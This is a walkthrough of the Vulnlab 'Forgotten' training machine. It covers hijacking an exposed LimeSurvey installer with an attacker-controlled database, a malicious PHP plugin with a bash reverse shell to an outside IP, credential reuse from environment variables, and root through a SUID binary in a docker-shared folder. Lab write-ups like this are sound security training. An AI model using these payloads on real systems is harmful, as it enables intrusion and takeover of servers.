










[Home](/) | [Writeups](/writeups/) 

18\. December 2023

# Vulnlab: Forgotten

**Table of Contents**

1\. [Introduction](#introduction)<br>
2\. [Nmap](#nmap)<br>
3\. [Enumerating the web server](#enumerating-the-web-server)<br>
4\. [Installing LimeSurvey](#installing-limesurvey)<br>
5\. [Configuring MariaDB](#configuring-mariadb)<br>
6\. [Uploading a malicious plugin](#uploading-a-malicious-plugin)<br>
7\. [Getting user](#getting-user)<br>
8\. [Enumeration as limesvc on host](#enumeration-as-limesvc-on-host)<br>
9\. [Getting root](#getting-root)<br>
10\. [Final thoughts](#final-thoughts)<br>

## Introduction

Forgotten is a easy (junior) level machine on [Vulnlab](https://www.vulnlab.com/) involving exploitation of a forgotten web installer of `LimeSurvey` survey application. The installation allowed to supply a remote database server instance and we could configure the web application to use our server as it's database. After successful installation, the `LimeSurvey` allowed us to upload a malicious PHP plugin and we were able to get Remote Code Execution landing in docker instance. This may seem like a bit far fetched scenario, however, as the machine's creator ([xct](https://twitter.com/xct_de)) pointed out, this is something that he encountered on a real life pentest. The box ends with a very nice way of leveraging root access to a docker instance and shared folder with the host for privilege escalation.

I hope you enjoy this write up, let's get into it!


## Nmap

As with every machine, let's start with an Nmap scan. I use my own Rust wrapper which you can find [here](https://github.com/qur1us/rustmap). Let's look at the results.

```
# Nmap 7.94SVN scan initiated Thu Dec 14 18:05:10 2023 as: nmap -sC -sV -oA nmap/forgotten -p 22,80 -Pn 10.10.111.73
Nmap scan report for 10.10.111.73
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a0:cb:84:9b:d1:a5:0e:5a:b8:81:38:3b:e7:6c:35:f2 (ECDSA)
|_  256 32:4d:ea:89:3a:5f:1c:4f:3a:25:36:54:8d:c9:73:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 14 18:05:18 2023 -- 1 IP address (1 host up) scanned in 7.57 seconds
```

We can see that there are just two ports open. The machine's operating system is Linux (Debian) and it's running Apache 2.4.56. The Nmap is telling us that the web server sends a 403 status code when trying to access the root of the web server. Let's take a closer look.

## Enumerating the web server



When we access the web server, we get an `Forbidden` error. There is probably nothing in the web root and directory indexing is disabled. Let's try fuzzing the webserver.

```
➜  forgotten ffuf -u http://10.10.111.73/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.111.73/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

survey                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 31ms]
```

Ffuf discovered `survey` directory. Let's take a look.



In the survey directory, there's a PHP web application that looks like an web installer for `LimeSurvey` software.

## Installing LimeSurvey

As there is no authorization needed, we may proceed with the installation itself. The installation process consists of a few steps. There are two things particularly interesting and useful for us.



The installer is for a `LimeSurvey version 6.3.7`. We can check for any public vulnerabilities, but it seems that there are none for this particular version. However, we can take a note of the version.

The next step is the database setup and here's where the magic happens. The installation allows us to specify the database connection settings allowing remote databases. What we can do here is try to specify the database IP address and port and see if we get a connection and there is no firewall or else blocking us.



## Configuring MariaDB

First, we have to setup the database correctly. This can be a bit tricky. What have worked for me was to modify the `/etc/mysql/mariadb.conf.d/50-server.cnf` configuration file:

```
bind-address            = 0.0.0.0
```

This will ensure that the MariaDB server will be available on all interfaces. With the database set up, we may proceed with the next step.

By trying to proceed with the installation, we indeed receive a connection to our MariaDB database, however we get an error:



To allow remote hosts to connect to the database, we forgot one thing. We have to explicitly allow the root user to log in from a specific IP address or range. We can achieve so with the following command with MariaDB CLI.

```
MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO 'root'@'10.10.111.73' IDENTIFIED BY 'root' WITH GRANT OPTION;

Query OK, 0 rows affected (0.001 sec)
```

After the remote host is allowed, we can see that the the database connecting was created successfully and the database has been populated.

```
MariaDB [test]> show tables;
+----------------------------------+
| Tables_in_test                   |
+----------------------------------+
| answer_l10ns                     |
| answers                          |
| archived_table_settings          |
.
.
.
| user_groups                      |
| user_in_groups                   |
| user_in_permissionrole           |
| users                            |
+----------------------------------+
59 rows in set (0.000 sec)
```

After the database was populated, we were redirected to a `LimeSurvey` login page. At the installation end the installer informed us that the default username and password are `admin:password`.



## Uploading a malicious plugin

LimeSurvey supports the use of plugins. There are already a couple of plugins available to use in the plugins menu.



The plugins are PHP applications and we can leverage this to achieve a Remote Code Execution on the machine by uploading a malicious plugin.

In oder to do so we have to create a valid plugin. A `LimeSurvey` plugin requires the PHP file with the plugin's code and a `config.xml` file. You can find an example config file [here](https://github.com/LimeSurvey/LimeSurvey/blob/master/application/core/plugins/AuditLog/config.xml). What's important for us is the plugin compatibility. Since we know the exact version, we can specify it in the config file.

The config file I used looked like this:

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Shell</name>
        <type>plugin</type>
        <creationDate></creationDate>
        <lastUpdate></lastUpdate>
        <author>qurius</author>
        <authorUrl></authorUrl>
        <authorEmail></authorEmail>
        <supportUrl></supportUrl>
        <version>1.0.0</version>
        <license>GNU General Public License v3.0</license>
        <description></description>
    </metadata>
    <compatibility>
        <version>6.3.7</version>
    </compatibility>
</config>
```

As a reverse shell we can use a simple `bash` reverse shell and PHP's `system()` function:

```
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.109/443 0>&1'");
?>
```

By zipping these two files together, we can upload and install the plugin on LimeSurvey.

According to the documentation the plugins are located in `/upload/plugins` folder. This means that we can access our reverse shell on the following URL:

```
http://10.10.111.73/survey/upload/plugins/Shell/x.php
```

By accessing the above URL we can see that we successfully obtained a reverse shell.



## Getting user

After gaining the foothold we can see that there is no user flag. We have to enumerate the machine further.

By the hostname we can see that we are probably in a Docker container. By checking the root directory we can confirm this by observing the presence of the `.dockerenv` file.

We probably have to find a way to escape this docker. Let's try with enumerating our privileges and see I we can get root inside the container.

Right away we can see that the `limesvc` user is in the `sudo` group.

```
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
```

Let's check it. First we have to obtain a TTY to be able to use the `sudo` command. There is no Python installed so we can use the `script` command to do that.

```
limesvc@efaa6f5097ed:/var/www/html/survey/upload/plugins/Shell$ script -q /dev/null bash
$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc:
```

Unfortunately, the `sudo` command requires a user password. Let's look around and try to find something.

After searching the filesystem for a while I decided to look at the environment variables and bingo! There were indeed some credentials.

```
limesvc@efaa6f5097ed:/var/www/html/survey/upload/plugins/Shell$ env
HOSTNAME=efaa6f5097ed
PHP_VERSION=8.0.30
.
.
LIMESURVEY_PASS=5W5HN4*******
.
.
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PHP_ASC_URL=https://www.php.net/distributions/php-8.0.30.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
_=/usr/bin/env
```

After supplying the password to the `sudo` command we can see that we can run any command as root inside the container.

```
Matching Defaults entries for limesvc on efaa6f5097ed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL
```

Great, however there was still no user flag. One of the things that I always like to try is to use the obtained credentials wherever I can. As we remember from the Nmap scan, there is SSH running on the host.

This indeed worked and we can read the user flag.



## Enumeration as limesvc on host

Let's take a look at the file system.

```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls -lah
total 168K
drwxr-xr-x  15 limesvc limesvc 4.0K Nov 27 09:49 .
drwxr-xr-x   4 root    root    4.0K Dec  2 14:27 ..
-rw-rw-r--   1 limesvc limesvc 1.1K Nov 27 09:49 .htaccess
-rw-rw-r--   1 limesvc limesvc  49K Nov 27 09:49 LICENSE
-rw-rw-r--   1 limesvc limesvc 2.5K Nov 27 09:49 README.md
-rw-rw-r--   1 limesvc limesvc  536 Nov 27 09:49 SECURITY.md
drwxr-xr-x   2 limesvc limesvc 4.0K Nov 27 09:49 admin
drwxr-xr-x  15 limesvc limesvc 4.0K Nov 27 09:49 application
drwxr-xr-x  10 limesvc limesvc 4.0K Nov 27 09:49 assets
drwxr-xr-x   7 limesvc limesvc 4.0K Nov 27 09:49 docs
-rw-rw-r--   1 limesvc limesvc 8.0K Nov 27 09:49 gulpfile.js
-rw-rw-r--   1 limesvc limesvc 5.5K Nov 27 09:49 index.php
drwxr-xr-x   4 limesvc limesvc 4.0K Nov 27 09:49 installer
drwxr-xr-x 120 limesvc limesvc 4.0K Nov 27 09:49 locale
drwxr-xr-x   4 limesvc limesvc 4.0K Nov 27 09:49 modules
drwxr-xr-x  23 limesvc limesvc 4.0K Nov 27 09:49 node_modules
-rwxrwxr-x   1 limesvc limesvc 9.5K Nov 27 09:49 open-api-gen.php
drwxr-xr-x   3 limesvc limesvc 4.0K Nov 27 09:49 plugins
-rw-rw-r--   1 limesvc limesvc 2.2K Nov 27 09:49 psalm-all.xml
-rw-rw-r--   1 limesvc limesvc 1.1K Nov 27 09:49 psalm-strict.xml
-rw-rw-r--   1 limesvc limesvc 1.1K Nov 27 09:49 psalm.xml
-rw-rw-r--   1 limesvc limesvc 1.7K Nov 27 09:49 setdebug.php
drwxr-xr-x   5 limesvc limesvc 4.0K Nov 27 09:49 themes
drwxr-xr-x   6 limesvc limesvc 4.0K Dec 18 12:08 tmp
drwxr-xr-x   9 limesvc limesvc 4.0K Nov 27 09:49 upload
drwxr-xr-x  36 limesvc limesvc 4.0K Nov 27 09:49 vendor
```

In the `/opt` directory there seems to be the root of the `LimeSurvey` web application. Sometimes, docker containers can share folders with the host. The chances are that this might be the case here.

Let's try to put a file in here and observe if it really appears in the docker folder as well.

```
limesvc@efaa6f5097ed:/var/www/html/survey$ ls -lah | grep test.txt
ls -lah | grep test.txt
-rw-rw-r--   1 limesvc  limesvc     0 Dec 18 12:36 test.txt
```

Nice, we have a privilege escalation vector here.

## Getting root

From the post-exploitation enumeration above, we identified a potential privilege escalation vector. We have a write access as root in docker to a shared folder with a host. What we can do here is to create a SUID binary. There is a famous way to exploit this by copying a `/bin/bash` to the folder, modifying it to be owned by root and giving it a SUID bits. However, we'll do something different.

What we can do is to write a small C binary that will attempt to write a public SSH key into the root's `autorized_keys` file.

Here's the code:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

int main()
{
    const char *sshPublicKey = "ssh-rsa <REDACTED>";
    const char *sshDirectory = "/root/.ssh";
    const char *authorizedKeysPath = "/root/.ssh/authorized_keys";

    if (geteuid() != 0)
    {
        perror("[x] Error: Program not running as root.\n");
        return 1;
    }

    printf("[+] Running as root!\n");

    if (mkdir(sshDirectory, 0700) != 0)
    {
        perror("[x] Error creating directory. Skipping...\n");
    }

    FILE *file = fopen(authorizedKeysPath, "a");

    if (file == NULL)
    {
        perror("[x] Error opening file\n");
        return 1;
    }

    if (fprintf(file, "%s\n", sshPublicKey) < 0)
    {
        perror("[x] Error writing to file\n");
        fclose(file);
        return 1;
    }

    fclose(file);

    printf("[+] SSH public key successfully added to %s\n", authorizedKeysPath);

    return 0;
}
```

We can compile this with GCC and upload it to the `/opt/limesurvey` on the host machine.

```
gcc write_key.c -o write_key
```

As a next step, we have to use our root access in docker to modify the binary's privileges.

```
chown root:root write_key
chmod u+s write_key
chmod +x write_key
```

Now, we can run the binary and see that we successfully wrote our public SSH key to the root's `authorized_keys` file.

From here we can just SSH into to machine as root using our private key and read the flag.



## Final thoughts

I really enjoyed this machine! Thanks ([xct](https://twitter.com/xct_de)) for creating it. The machine was pretty easy and straightforward apart from some troubleshooting, however, what I liked the most about the box was that it's based off a real life engagement.

Now searching for forgotten web installers will never be forgotten for me :)